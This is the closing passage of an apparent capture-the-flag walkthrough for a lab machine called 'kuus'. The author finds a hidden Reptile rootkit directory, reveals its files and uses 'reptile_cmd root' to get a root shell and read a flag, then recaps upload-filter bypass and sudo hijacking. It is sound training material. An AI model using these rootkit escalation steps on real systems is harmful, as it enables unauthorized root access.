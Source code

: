As a penetration tester is not uncommon to come across new tools and technologies every day, when this happens, Google can be of great help. Remember above in www-data's bash history file we saw an uncommon directory in the root directory of the filesystem named reptile. This is not a directory's name we see every day. A quick Google search will show us that a tool known as [Reptile](https://github.com/f0rb1dd3n/Reptile/wiki/Local-Usage) is used to  hide files and folders that have the string reptile in their names and that it can also be used to give root to unprivileged users. When we navigate to that directory and try the command used to show all hidden files it works.
```bash
mister_b@kuus:~$ cd /reptile
mister_b@kuus:~$ ls
mister_b@kuus:/reptile$ /reptile/reptile_cmd show
Success!
mister_b@kuus:/reptile$ ls
reptile  reptile_cmd  reptile_rc  reptile_shell  reptile_start
```
*NB: These files can't be seen by using the ls command*
 Now that we confirm the presence of the tool on our target let's see if this can give us access to a root shell.
 ```bash
mister_b@kuus:/reptile$ ./reptile_cmd root
You got super powers!
root@kuus:/reptile# ls /root
Reptile  root.txt
root@kuus:/reptile# 
```
Great, this tool works and has granted us root access. We can use this access to read the second flag as shown above.

## Conclusion
Congratulations! In this walkthrough, you have learned to bypass some common filters used in upload forms to achieve insecure file upload. Also, you have learned how to hijack files that can be executed with sudo privileges to achieve lateral movement. This machine was designed to show how improper handling of file extensions in upload forms and misconfiguration of web servers can seriously impact the security posture of an organisation. Thank you for following up on this walkthrough.
